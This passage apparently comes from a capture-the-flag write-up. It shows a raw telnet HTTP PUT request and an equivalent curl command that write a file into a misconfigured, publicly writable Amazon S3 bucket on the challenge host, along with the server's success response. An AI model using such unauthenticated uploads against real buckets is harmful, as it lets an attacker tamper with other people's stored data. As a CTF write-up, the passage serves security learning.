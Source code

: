```
$ telnet files.filer.sect.ctf.rocks 80
PUT /abc.txt HTTP/1.1
Host: files.filer.sect.ctf.rocks
Date: Sat, 10 Sep 2016 09:21:02 GMT
Content-Type: text/plain
Content-Length: 32

/files/flag.php
/files/flag.php

HTTP/1.1 200 OK
x-amz-id-2: 3GLe0t1bgnmvrVbZic0CAjd8x5mwPBJRR6stEJj+e6/7x+8tZe0jteImuhxukQKZJFa6z0yOnrY=
x-amz-request-id: 3F732267A35970EC
Date: Sat, 10 Sep 2016 09:21:26 GMT
ETag: "c1f1b2f47ed3ad9c7785dc233fcb1ce5"
Content-Length: 0
Server: AmazonS3
```

Alternatively we can use `curl` for uploading any file:
```
$ curl -s -H "Content-Type:text/plain" http://files.filer.sect.ctf.rocks --upload-file abc.txt
```

References:

[https://docs.aws.amazon.com/AmazonS3/latest/API/RESTBucketPUT.html](https://docs.aws.amazon.com/AmazonS3/latest/API/RESTBucketPUT.html)
